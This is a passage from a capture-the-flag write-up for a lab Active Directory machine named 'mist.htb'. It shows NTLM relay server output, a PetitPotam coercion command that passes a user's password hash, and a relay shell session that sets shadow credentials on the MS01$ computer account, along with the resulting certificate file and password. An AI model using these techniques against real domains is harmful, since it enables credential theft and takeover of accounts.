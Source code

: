 ```bash
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666
```
```bash
proxychains petitpotam.py -u "Brandon.Keywarp" -d mist.htb -hashes :DB03D6A77A2205BC1D07082740626CC9 "ms01@8082/test" 192.168.100.101 -pipe all
```

![alt text](<../assets/image_mist/5er MS01 success auth.png>)

Ok nice !!, let's set shadowcreds :

```bash
nc localhost 11000

# clear_shadow_creds MS01$
Found Target DN: CN=MS01,CN=Computers,DC=mist,DC=htb
Target SID: S-1-5-21-1045809509-3006658589-2426055941-1108

Shadow credentials cleared successfully!

# set_shadow_creds MS01$
Found Target DN: CN=MS01,CN=Computers,DC=mist,DC=htb
Target SID: S-1-5-21-1045809509-3006658589-2426055941-1108

KeyCredential generated with DeviceID: 7b4da94a-4fe4-33d3-8e6c-8403fa0e9b75
Shadow credentials successfully added!
Saved PFX (#PKCS12) certificate & key at path: XMfyKUjR.pfx
Must be used with password: imuwG9FhuUcgSL5gxaPD
```
Now use the .pfx to have the hash of MS01$
